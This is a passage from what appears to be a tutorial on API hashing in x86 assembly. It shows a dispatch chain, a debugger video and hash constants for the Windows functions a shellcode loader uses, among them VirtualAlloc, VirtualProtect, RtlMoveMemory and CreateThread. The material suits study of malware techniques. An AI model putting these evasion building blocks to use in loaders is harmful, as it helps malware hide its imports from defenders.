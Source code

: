 ```nasm
    cmp ecx, 4
    je api_5
    cmp ecx, 5
    je api_6
    cmp ecx, 6
    je api_7
    cmp ecx, 7
    je api_8
    cmp ecx, 8
    je api_9
    cmp ecx, 9
    je api_10
    cmp ecx, 10
    je api_11
    cmp ecx, 11
    je api_12
    cmp ecx, 12
    je api_13
    cmp ecx, 13
    je api_14
    cmp ecx, 14
    je goodbye

    goodbye:
    int3
    int3
    int3
```

Here's what that looks like in action.  Be sure to pay attention to the bottom right hand corner of x64dbg to see the hashed APIs pushed to the stack!

<iframe width="1080" height="720" 
        src="https://www.youtube.com/embed/Dxu9h35hw58" 
        title="YouTube video player" 
        frameborder="0" 
        allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" 
        allowfullscreen>
</iframe>

So now we have our hashes ready to go!  They are as follows (not in the order I pushed them in x64dbg btw):

```nasm
api6 dd 0xA4A1011B  ;loadlibrarya
api1 dd 0x80778D35  ;waitforsingleobject
api9 dd 0xCEFC5AFD  ;createthread
api2 dd 0x4A155ACA  ;virtualprotect
api3 dd 0x85B79578  ;virtualfree
api4 dd 0xB68D8A33  ;virtualalloc
api8 dd 0xE3DB70A7  ;exitprocess
api10 dd 0xD7277164  ;closehandle
api5 dd 0xC7DEFE95  ;rtlmovememory
api7 dd 0xE536B693  ; getprocaddress
```
